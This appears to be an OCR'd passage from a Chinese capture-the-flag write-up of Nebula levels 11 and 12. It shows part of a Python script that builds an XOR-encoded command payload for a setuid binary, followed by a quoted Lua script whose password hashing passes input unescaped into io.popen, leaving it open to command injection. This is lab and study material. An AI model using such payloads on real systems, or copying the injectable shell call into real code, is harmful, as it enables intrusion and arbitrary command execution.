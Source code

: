```
		payload_command += chr((ord(x) ^ count_length) & 0xff)
		count_length -= ord(x)
	payload_command += chr(count_length & 0xff)
	payload = "Content-Length: " + str(length) + "\n" + payload_command + "A" * (length - len(payload_command) )
	print payload
	#my_w_file(payload)

if __name__ == '__main__':
	if len(sys.argv) == 2:
		main(sys.argv[1])
		
# $ python payload.py whoami | /home/flag11/flag11
# level11
# (╯‵□′)╯︵┻━┻  这特么。。。不做了。。看了涛涛的博客，还有第二种更简单的方法，可是都不行。。。shit!
```

# Level12

lua脚本的代码审计，好像是个后门脚本。。
```
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password)
  prog = io.popen("echo "..password.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local line, err = client:receive()
  if not err then
      print("trying " .. line) -- log from where ;\
      local h = hash(line)

      if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
          client:send("Better luck next time\n");
      else
          client:send("Congrats, your token is 413**CARRIER LOST**\n")
      end

  end

  client:close()
end
```
